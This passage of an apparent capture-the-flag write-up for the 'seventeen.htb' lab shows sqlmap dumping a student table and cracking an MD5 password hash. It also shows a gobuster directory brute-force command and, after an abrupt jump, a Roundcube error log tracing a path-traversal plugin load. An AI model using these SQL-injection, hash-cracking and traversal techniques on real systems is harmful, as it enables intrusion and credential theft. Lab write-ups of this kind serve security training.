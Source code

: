 [11:42:21] [INFO] retrieved: 4
[11:42:21] [INFO] retrieved: 43347
[11:42:23] [INFO] retrieved: 3C
[11:42:24] [INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N
do you want to crack them via a dictionary-based attack? [Y/n/q] Y
[11:42:24] [INFO] using hash method 'md5_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
[11:42:24] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] N
[11:42:24] [INFO] starting dictionary-based cracking (md5_generic_passwd)
[11:42:24] [INFO] starting 8 processes 
[11:42:26] [INFO] cracked password 'autodestruction' for hash 'a2afa567b1efdb42d8966353337d9024'                                                           
Database: db_sfms                                                                                                                                          
Table: student
[4 entries]
+---------+----+--------+---------+----------+----------------------------------------------------+-----------+
| stud_id | yr | gender | stud_no | lastname | password                                           | firstname |
+---------+----+--------+---------+----------+----------------------------------------------------+-----------+
| 1       | 1A | Male   | 12345   | Smith    | 1a40620f9a4ed6cb8d81a1d365559233                   | John      |
| 2       | 2B | Male   | 23347   | Mille    | abb635c915b0cc296e071e8d76e9060c                   | James     |
| 3       | 2C | Female | 31234   | Shane    | a2afa567b1efdb42d8966353337d9024 (autodestruction) | Kelly     |
| 4       | 3C | Female | 43347   | Hales    | a1428092eb55781de5eb4fd5e2ceb835                   | Jamie     |
+---------+----+--------+---------+----------+----------------------------------------------------+-----------+

[11:42:32] [INFO] table 'db_sfms.student' dumped to CSV file '/home/kali/.local/share/sqlmap/output/exam.seventeen.htb/dump/db_sfms/student.csv'
[11:42:32] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/exam.seventeen.htb'

[*] ending @ 11:42:32 /2022-07-20/
```
Okay so ```sqlmap``` cracked the hash for one student, I think that is the one we should focus on first.

| user_no | Name  | password  |
|---|---|---|
| 31234  | Kelly Shane  | autodestruction  |

I was not able to crack the other hashes nor was I able to login with ```Kell Shane``` to any other known service.

So my conclusion is that the student credentials do not belong to the Exam Management DBs and may belong to a service unknown to me yet.

### Dirbusting
```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -k -u http://seventeen.htb/  -e -s 200  
 

[08-Apr-2022 17:55:26 +0000]: PHP Error: No plugin class ../../../../../../../../../var/www/html/oldmanagement/files/31234/papers found in /var/www/html/mastermailer/plugins/../../../../../../../../../var/www/html/oldmanagement/files/31234/papers/../../../../../../../../../var/www/html/oldmanagement/files/31234/papers.php in /var/www/html/mastermailer/program/lib/Roundcube/rcube_plugin_api.php on line 188 (GET /mastermailer/)